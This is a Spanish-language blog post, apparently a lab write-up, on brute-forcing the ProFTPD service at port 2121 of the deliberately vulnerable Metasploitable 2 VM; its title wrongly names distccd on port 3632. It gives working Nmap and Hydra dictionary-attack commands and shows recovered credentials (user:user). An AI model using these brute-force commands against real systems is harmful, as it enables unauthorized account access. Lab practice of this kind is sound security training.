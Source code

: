 ```yaml
---
layout: post
title: Metasploitable 2, distccd en el puerto 3632
category: Hacking
comments: true
description: En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

tags:       
    - metasploitable2
    - metasploit

---
```


En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Los puertos de Metasploitable 2

Como recordaras al explorar la maquina de Metasploitable 2 con Nmap nos daba el siguiente resultado:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}

## El puerto 2121

Nmap nos pone que en el puerto 2121 hay un servicio de FTP llamado ccproxy-ftp, pero como necesitamos más le pedimos, más informacion con -sV

{% highlight sql linenos %}

nmap -sT -p 2121  -sV  -T5 192.168.1.39

{% endhighlight %}

Y nos devuelve:

{% highlight sql linenos %}

Starting Nmap 7.50 ( https://nmap.org ) at 2017-08-13 13:36 CEST
Nmap scan report for 192.168.1.39
Host is up (0.00060s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

{% endhighlight %}

Nmap nos devuelve que este server es un ProFTPD 1.3.1, si buscamos algun exploit para esta versión, no encontramos ninguno, ni en Metasploit ni en searchsploit, por lo que tendriamos que ver otras opciones.

## Ataque por diccionario

La opción principal seria aqui, haber sacado usuarios del sistema durante la fase de enumeración y con ello poder hacer un ataque de diccionario, para ello usaremos la aplicación Hydra, pre-instalada en Kali Linux.

Para hacer este ataque tenemos tres opciones:

* No saber los usuarios

Esta es la peor, ya que nos toca recorrer dos diccionarios y combinarlos entre ellos, es la opción que más tarda. Recueda Kali tiene diccionarios ya en el sistema, pero eso no te impide crear tu otros diccionarios o descargarte nuevos.

<figure>
<img alt="Hydra funcionando a pleno rendimiento" class="img img-responsive" src="/resources/images/hydra.png"/>
<figcaption>
Hydra funcionando a pleno rendimiento
</figcaption>
</figure>

{% highlight sql linenos %}

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121


{% endhighlight %}


Y después de tres horas corriendo con los diccionarios por defecto de Kali.... nada. Seguramente con diccionario hecho a medida hubiese funcionado mejor.

{% highlight sql linenos %}

1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-08-14 10:06:00

{% endhighlight %}

* Saber el usuario, pero no el password

Puede que durante nuestra fase de enumeración, hayamos conseguido nombres de usuario, con ello podemos probar hydra, solo combinando con passwords, es una opción rapida.

{% highlight sql linenos %}

hydra -l user -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

* Combinación de usuarios y passwords por defecto

La mejor opción es tener una lista de usuarios y passwords ya hecha e Hydra probara esas combinaciones por si alguna es valida. En este caso en Hydra tenemos que usar la opción -C usando un fichero con usuarios y passwords separados con : ejemplo: usuario:password

{% highlight sql linenos %}

hydra -C passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

## Y al final NMAP gana...

Y al final un script simple de Nmap se lleva el gato al agua, simplemente usando un script de Nmap, tenemos ya un usuario de FTP que poder entrar.
Este es el comando que he usado, pidiendo que se ejecuten todos los scripts relacionados con FTP.

{% highlight sql linenos %}

nmap -sT -sV -p 2121 --script ftp* -T5 192.168.1.39

{% endhighlight %}

El resultado

{% highlight sql linenos %}

Nmap scan report for 192.168.1.39
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 11296 guesses in 182 seconds, average tps: 75.9
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds


{% endhighlight %}

Es decir, el usuario es user, y el password es user... Ya podemos entrar y tener acceso a un FTP.





